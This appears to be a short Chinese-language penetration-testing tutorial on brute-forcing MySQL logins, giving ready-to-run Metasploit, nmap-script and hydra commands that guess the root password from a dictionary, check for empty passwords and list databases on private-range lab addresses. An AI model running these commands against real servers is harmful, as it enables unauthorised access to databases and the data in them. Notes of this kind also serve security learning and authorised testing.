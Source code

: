 > ​	学习地址：
>
> - https://xz.aliyun.com/t/1652

# MYSQL 爆破

## 使用 metasploit

启动 metasploit：

```shell
$ msfconsole
```

使用 `auxiliary/scanner/mysql/mysql_login` 模块进行：

可以单一扫描验证登录验证：

```shell
use auxiliary/scanner/mysql/mysql_login
set rhosts <ip-address>
set username root
set password 11111111
run
```

使用某个字典进行爆破：

```shell
use auxiliary/scanner/mysql/mysql_login
set RHOSTS <ip-address>
set pass_file “/root/top10000pwd.txt”
set username root
run
```

## nmap 扫描

可以查看所有与 `mysql` 相关的脚本：

```shell
$ ls -al /usr/share/nmap/scripts/mysql*
```

先查看是否开启了端口

```shell
$ nmap <ip-address>
```

扫描空口令：

```shell
$ nmap -p3306 --script=mysql-empty-password.nse 192.168.137.130
```

扫描已知口令：

```shell
$ nmap -sV --script=mysql-databases --script-args dbuser=root,dbpass=11111111 192.168.195.130
```

## xHydra 和 Hydras

使用字典进行爆破：

```shell
$ hydra -l root -P /root/Desktop/top10000pwd.txt -t 16 192.168.157.130 mysql
```


